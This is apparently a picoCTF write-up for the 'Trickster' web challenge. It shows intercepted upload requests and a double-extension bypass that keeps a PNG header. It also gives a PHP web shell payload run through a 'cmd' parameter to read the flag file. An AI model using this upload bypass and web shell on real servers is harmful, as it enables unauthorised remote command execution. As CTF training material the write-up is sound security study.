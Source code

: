 # Challange Info

Name : Trickster

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/445?category=1&page=2

# Writeup

Navigating the webapp http://atlas.picoctf.net:52670/.

The wepapp provides file upload functionality.

Intercepting the file upload request after providing valid png file.

```
POST / HTTP/1.1

Host: atlas.picoctf.net:52670

Content-Length: 1621835

Cache-Control: max-age=0

Origin: http://atlas.picoctf.net:52670

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2BkeBqtFYUCMEiB7

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://atlas.picoctf.net:52670/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive



------WebKitFormBoundary2BkeBqtFYUCMEiB7

Content-Disposition: form-data; name="file"; filename="test.png"

Content-Type: image/png



PNG

<First line of png header>
```

Changing `filename="test.png` to `filename="test.png.php`.

And remove all png data after first line of png header as the server checks for php header after file is uploaded.

After all changes the request should look like this.

```
POST / HTTP/1.1

Host: atlas.picoctf.net:52712

Content-Length: 869

Cache-Control: max-age=0

Origin: http://atlas.picoctf.net:52712

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrnVv0sWMNLhWGIPR

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://atlas.picoctf.net:52712/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive



------WebKitFormBoundaryrnVv0sWMNLhWGIPR

Content-Disposition: form-data; name="file"; filename="pay.png.php"

Content-Type: image/png



PNG

<First line of png header>
<?php system($_GET['cmd'], $retval); echo $retval; ?>
------WebKitFormBoundaryrnVv0sWMNLhWGIPR--
```

Forward this request and file will be uploaded.

Now navigate to http://atlas.picoctf.net:52670/uploads/pay.png.php?cmd=cat /var/www/html/GQ4DOOBVMMYGK.txt

`Note : I found "/var/www/html/GQ4DOOBVMMYGK.txt" by using "find / flag" command which revealed all files and to the very end this file caught my eye.`

This will reveal the flag.
